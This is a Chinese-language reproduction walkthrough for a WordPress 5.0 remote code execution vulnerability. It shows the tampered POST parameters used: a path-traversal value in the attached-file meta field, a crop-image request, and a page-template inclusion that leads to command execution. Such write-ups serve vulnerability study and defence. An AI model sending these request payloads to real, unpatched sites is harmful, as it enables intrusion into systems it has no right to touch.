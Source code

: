 # CVE-2019-6977 WordPress 5.0 RCE

### 一、漏洞简介

漏洞条件：拥有一个author权限的账号

### 二、漏洞影响

影响包括windows、linux、mac在内的服务端，后端图片处理库为gd/imagick都受到影响，只不过利用难度有所差异。

其中，原文提到只影响release 5.0.0版，但现在官网上可以下载的5.0.0已经修复该漏洞。实际在WordPress 5.1-alpha-44280更新后未更新的4.9.9~5.0.0的WordPress都受到该漏洞影响。

### 三、复现过程

传图片

![](images/15895253846231.png)


改信息

![](images/15895253915776.png)


保留该数据包，并添加POST


```bash
&meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg
```

触发需要的裁剪

![](images/15895254092344.png)


裁剪

![](images/15895254170255.png)


同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变


```bash
action=crop-image&_ajax_nonce=8c2f0c9e6b&id=74&cropDetails[x1]=10&cropDetails[y1]=10&cropDetails[width]=10&cropDetails[height]=10&cropDetails[dst_width]=100&cropDetails[dst_height]=100
```

触发需要的裁剪

![](images/15895254356749.png)


图片已经过去了

![](images/15895254429945.png)


包含，我们选择上传一个test.txt，然后再次修改信息，如前面


```bash
&meta_input[_wp_page_template]=cropped-32.jpg
```

![](images/15895254574491.png)


点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

![](images/15895254646564.png)


### 四、参考链接

https://www.freebuf.com/vuls/196514.html
